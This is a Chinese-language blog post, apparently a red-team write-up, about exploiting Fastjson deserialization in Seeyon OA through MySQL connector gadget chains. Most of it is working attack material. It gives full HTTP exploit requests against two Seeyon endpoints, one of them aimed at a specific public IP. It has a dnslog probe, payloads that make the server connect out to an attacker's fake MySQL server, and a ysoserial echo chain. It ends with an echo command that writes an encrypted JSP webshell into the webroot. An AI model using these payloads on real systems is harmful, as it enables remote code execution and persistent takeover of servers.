 ```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来请教wal613师傅，换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 125.35.108.68:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://125.35.108.68:9090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://125.35.108.68:9090/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

参考这篇文章，http://www.hackdig.com/08/hack-439516.htm

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151149.png)

vps上执行 python server.py，yso看了下这篇文章中师傅改的https://www.anquanke.com/post/id/203086，最后为了打回显，使用了wal613师傅改的yso

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151234.png)

本地搭建安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar

## 0x03利用链

### Mysql connector 5.1x

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConn  ectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDese  rialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname" , "url":""}
```

### Mysql connector 6.0.2 or 6.0.3

```json
{"@type": "java.lang.AutoCloseable" ,"@type":  "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection" ,"proxy":{"connectionString":{"url":  "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}
```

###  Mysql connector 6.x or < 8.0.20

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnecti  on","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{ "@typ e":"com.mysql.cj.conf.url.ReplicationConnectionUrl" , "masters": [{"host":"mysql.host"}],  "slaves":[],  "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","quer  yInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserial  ize":"true"}}}}
```

## 0x04 实战场景中的回显

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152116.png)

服务端回显CommonsBeanutils1Tomcat89Echo

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152204.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152358.png)

完整Payload

```
_json_params={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"yso_CommonsBeanutils1Tomcat89Echo_data","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?user=yso_CommonsBeanutils1Tomcat89Echo_data&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```

直接写webshell，webshell路径自行替换

echo ^<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%^> > D:\UFSeeyon\A8\Enterprise\ApacheJetspeed\webapps\ROOT\2.jsp

## 0x05接口２

```
POST /seeyon/m3/loginController.do?method=transLogout HTTP/1.1
Host: x.x.x.x
Content-Length: 494
Cache-Control: max-age=0Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
data: ls
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/87.0.4280.88 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.
8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: 
JSESSIONID=26FF8158707BB0896A3ACD66EB92DD41; loginPageURL=Connection: close
statisticId={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostTo
ConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"test","password":"pass","state
mentInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"
true","NUM_HOSTS":"1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?
user=test%26autoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStat
usDiffInterceptor"}
```

利用也是一样的

## 参考资料

https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf

http://www.hackdig.com/08/hack-439516.htm

https://www.anquanke.com/post/id/203086

致远OA fastjson mysql connector 利用链  wal613

